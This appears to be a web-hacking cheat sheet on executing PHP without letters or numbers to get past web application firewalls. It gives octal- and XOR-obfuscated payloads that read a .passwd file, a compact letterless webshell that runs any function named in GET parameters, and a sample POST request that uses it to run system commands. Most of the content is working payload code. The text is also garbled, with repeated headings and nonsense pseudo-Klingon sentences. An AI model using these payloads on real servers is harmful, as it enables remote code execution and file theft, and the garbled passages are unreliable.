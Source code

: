 ## Execute PHP without letters

[https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Using octal
```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```
### **XOR**

#### **Klingon Translation:**

### **XOR**

#### **Klingon Translation:**

### **XOR**
```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```
### XOR jatlh shell code

[**'ej writeup**](https://mgp25.com/ctf/Web-challenge/) vItlhutlhla' easy shellcode vItlhutlhla' jatlh:
```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```
So, if you can **execute arbitrary PHP without numbers and letters** you can send a request like the following abusing that payload to execute arbitrary PHP:

---

**nuqneH**, **PHP** jatlh **loDpu'** 'ej **loDpu'** jatlh **PHP** **execute** **'ej** **payload** **abusing** **following** **request** **send** **can**:

---
```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
For a more in depth explanation check [https://ctf-wiki.org/web/php/php/#preg\_match](https://ctf-wiki.org/web/php/php/#preg\_match)
